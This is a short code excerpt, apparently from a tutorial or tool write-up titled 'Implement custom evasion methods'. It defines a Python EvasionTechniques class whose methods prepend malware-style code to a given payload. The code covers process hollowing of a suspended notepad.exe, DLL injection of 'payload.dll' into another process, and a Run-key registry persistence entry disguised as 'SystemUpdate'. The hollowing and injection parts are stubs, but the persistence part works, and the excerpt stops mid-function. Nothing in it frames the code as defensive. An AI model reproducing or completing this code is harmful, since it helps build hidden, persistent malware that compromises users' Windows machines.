 Implement custom evasion methods:

```python
class EvasionTechniques:
    """Custom evasion technique implementations."""
    
    @staticmethod
    def add_process_hollowing(code):
        """Add process hollowing technique."""
        hollowing_code = """
import subprocess
import os

def hollow_process():
    # Create suspended process
    proc = subprocess.Popen(['notepad.exe'], 
                          creationflags=0x00000004)  # CREATE_SUSPENDED
    
    # Hollow and inject code
    # Implementation details...
    
    return proc

# Execute in hollow process
hollow_process()
"""
        return hollowing_code + code
    
    @staticmethod
    def add_dll_injection(code):
        """Add DLL injection technique."""
        injection_code = """
import ctypes
from ctypes import wintypes

def inject_dll(process_id, dll_path):
    # Open target process
    process = ctypes.windll.kernel32.OpenProcess(
        0x1F0FFF, False, process_id)
    
    # Allocate memory and inject DLL
    # Implementation details...
    
    return True

# Perform DLL injection
inject_dll(target_pid, "payload.dll")
"""
        return injection_code + code
    
    @staticmethod
    def add_registry_persistence(code):
        """Add registry persistence."""
        persistence_code = """
import winreg

def add_persistence(exe_path):
    key = winreg.OpenKey(winreg.HKEY_CURRENT_USER,
                        "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
                        0, winreg.KEY_SET_VALUE)
    
    winreg.SetValueEx(key, "SystemUpdate", 0, 
                     winreg.REG_SZ, exe_path)
    winreg.CloseKey(key)
```